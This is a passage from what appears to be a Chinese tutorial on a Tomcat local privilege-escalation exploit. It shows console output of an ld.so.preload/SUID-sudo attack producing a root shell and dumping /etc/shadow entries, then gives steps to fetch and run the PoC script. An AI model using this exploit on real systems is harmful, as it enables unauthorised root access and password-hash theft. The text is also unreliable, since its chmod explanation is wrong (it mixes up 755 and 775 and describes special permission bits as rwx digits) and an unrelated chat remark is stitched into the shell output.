 ```
-rw-r–r-- 1 tomcat7 root 19 Sep 30 22:28 /etc/ld.so.preload

[+] Adding /tmp/privesclib.so shared lib to /etc/ld.so.preload

[+] The /etc/ld.so.preload file now contains:

/tmp/privesclib.so

[+] Escalating privileges via the /usr/bin/sudo SUID binary to get root!

[+] Rootshell got assigned root SUID perms at:

-rwsrwxrwx 1 root root 1037464 Sep 30 22:27 /tmp/tomcatrootsh

Please tell me you’re seeing this too ![:wink:](img/72b158ac013b9bc9875813ca4ffe6fc1.png ":wink:")

[+] Executing the rootshell /tmp/tomcatrootsh now! `tomcatrootsh-4.3# id

uid=110(tomcat7) gid=118(tomcat7) euid=0(root) groups=118(tomcat7)

tomcatrootsh-4.3# whoami

root

tomcatrootsh-4.3# head -n3 /etc/shadow

root:$6$oaf[cut]:16912:0:99999:7:::

daemon:*:16912:0:99999:7:::

bin:*:16912:0:99999:7:::

tomcatrootsh-4.3# exit

exit` 
```

首先我们下载poc文件，然后执行命令`cd /tmp`进入目录,然后编辑文件`vim poc.sh`。将桌面的poc.sh使用Notepad++打开，将文件内容粘贴进去。然后按键盘Esc键，再输入`:wq`，之后按 Enter 键将文件保存。
如果无法写入文件，使用命令

```
chmod 755 poc.sh 
```

执行命令后，再次重复上一步即可，chmod的意思是改变文件的权限，775是什么权限呢？第一个数字代表文件所属者的权限，第二个数字代表文件所属者所在组的权限，第三个数字代表其它用户的权限，7=4+2+1

> 4：执行时设置用户ID，用于授权给基于文件属主的进程，而不是给创建此进程的用户。
> 2：执行时设置用户组ID，用于授权给基于文件所在组的进程，而不是基于创建此进程的用户。
> 1：设置粘着位。
